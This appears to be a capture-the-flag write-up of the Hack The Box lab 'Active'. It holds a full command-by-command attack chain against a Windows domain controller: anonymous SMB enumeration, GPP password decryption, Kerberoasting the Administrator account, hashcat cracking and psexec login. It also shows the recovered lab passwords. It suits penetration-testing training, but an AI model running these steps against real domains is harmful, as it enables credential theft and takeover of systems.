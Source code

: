 ```yaml
---
layout: post
title: "Active"
date: 2025-04-20 
categories: CPTS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.140.152

sudo nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49162,49166,49168 -oA nmap/active 10.129.140.152

result:
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-03 15:58:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49162/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

The backend is operated by Windows. We also found the domain name active.htb, let’s put that in /etc/hosts

There is smb service, lets’ try null authenticiation

```bash
smbclient -N -L //10.129.140.152

result:

Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.140.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

smbmap -H 10.129.140.152

result:
[+] IP: 10.129.140.152:445      Name: active.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS

```

Since we have read permission on Replication, let’s list all the files:

```bash
smbmap  -H 10.129.140.152 -r Replication --depth 10

#Now we download the interesting file -A parameter to match string
smbmap -H 10.129.140.152 -A Groups.xml -q -r Replication --depth 10

mv /home/billy/htb_lab/active/10.129.140.152-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml Groups.xml
```

A critical vulnerability was identified in how `groups.xml` handled sensitive data:

- **Plaintext Passwords**:
    - If a user account (e.g., a local administrator) was configured using `groups.xml`, the password for that account was stored in **plaintext or weakly encrypted** format (AES-256 with a known static key) in the XML file.

If we view the content, we get user SVC_TGS’s hashed password. We can use gpp-decrypt to decrypt the password:

`gpp-decrypt` is a tool used to decrypt passwords that were stored in **Group Policy Preferences (GPP)**. These passwords are stored in an encrypted format but use a **static AES-256 key** that is publicly known, making the encryption essentially useless.

The tool is widely used in penetration testing and red teaming to recover plaintext passwords from GPP configuration files, such as `groups.xml`.

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Now let’s check if the password is valid.

```bash
crackmapexec smb -u SVC_TGS -p GPPstillStandingStrong2k18 --shares active.htb

result:
SMB         active.htb      445    DC               Share           Permissions     Remark                                                                
SMB         active.htb      445    DC               -----           -----------     ------                                                                
SMB         active.htb      445    DC               ADMIN$                          Remote Admin                                                          
SMB         active.htb      445    DC               C$                              Default share                                                         
SMB         active.htb      445    DC               IPC$                            Remote IPC                                                            
SMB         active.htb      445    DC               NETLOGON        READ            Logon server share                                                    
SMB         active.htb      445    DC               Replication     READ            
SMB         active.htb      445    DC               SYSVOL          READ            Logon server share 
SMB         active.htb      445    DC               Users           READ 
```

Let’s login and get the flag

```bash
smbclient -U svc_tgs //10.129.140.152/Users

get svc_tgs/Desktop/user.txt
```

Now let’s enumerate AD users

```bash
impacket-GetADUsers -all -dc-ip 10.129.140.152 active.htb/svc_tgs  #Windows is case insensitive

result:
Administrator                                         2018-07-18 20:06:40.351723  2024-12-03 15:56:54.283335 
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 19:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 21:14:38.402764  2024-12-03 16:44:09.213914
```

Now let’s use bloodhound to map the network

```bash
bloodhound-python -u svc_tgs -p 'GPPstillStandingStrong2k18' -ns 10.129.140.152 -d active.htb -c all
```

Now start bloodhound and copy and paste all the data in to map the network. Delete bloodhound mapping from previous session.

```bash
MATCH (n) DETACH DELETE n;  #enter in raw query

```

Now we start from our exploited user svc_tgs. We don’t find any objects we are in control of. However, when we search for shortest path to kerberoastable targets under the analysis tab, we see that user Administrator is kerberostable. Let’s use GetUserSPN.py

```bash
impacket-GetUserSPNs -request -dc-ip 10.129.140.152 active.htb/svc_tgs
```

Now save the tgs ticket to a file and crack it with hashcat

```bash
hashcat.exe -m 13100 C:\Users\oahzl\Desktop\shared\admin_nt_hash.txt wordlists\rockyou.txt
```

Now let’s use psexec to login

```bash
impacket-psexec active.htb/Administrator@10.129.140.152 #Ticketmaster1968
```

We have root.txt

- smbmap enumeration
- exploiting groups.xml
- gpp-decrypt
- bloodhound
- Kerberoasting
- GetUserSPN, GetADUsers, psexec
- hashcat NTLM